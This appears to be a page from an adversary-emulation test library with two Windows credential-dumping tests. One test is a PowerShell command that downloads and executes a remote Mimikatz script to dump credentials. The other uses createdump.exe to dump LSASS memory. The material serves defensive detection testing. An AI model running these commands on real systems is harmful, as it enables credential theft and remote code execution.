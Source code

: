 ## Atomic Test #10 - Powershell Mimikatz
Dumps credentials from memory via Powershell by invoking a remote mimikatz script.
If Mimikatz runs successfully you will see several usernames and hashes output to the screen.
Common failures include seeing an \"access denied\" error which results when Anti-Virus blocks execution. 
Or, if you try to run the test without the required administrative privileges you will see this error near the bottom of the output to the screen "ERROR kuhl_m_sekurlsa_acquireLSA"

**Supported Platforms:** Windows


**auto_generated_guid:** 66fb0bc1-3c3f-47e9-a298-550ecfefacbc





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_script | URL to a remote Mimikatz script that dumps credentials | url | https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
IEX (New-Object Net.WebClient).DownloadString('#{remote_script}'); Invoke-Mimikatz -DumpCreds
```






<br/>
<br/>

## Atomic Test #11 - Dump LSASS with createdump.exe from .Net v5
Use createdump executable from .NET to create an LSASS dump.

[Reference](https://twitter.com/bopin2020/status/1366400799199272960?s=20)

**Supported Platforms:** Windows


**auto_generated_guid:** 9d0072c8-7cca-45c4-bd14-f852cfa35cf0






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$exePath =  resolve-path "$env:ProgramFiles\dotnet\shared\Microsoft.NETCore.App\5*\createdump.exe"
& "$exePath" -u -f $env:Temp\dotnet-lsass.dmp (Get-Process lsass).id
```
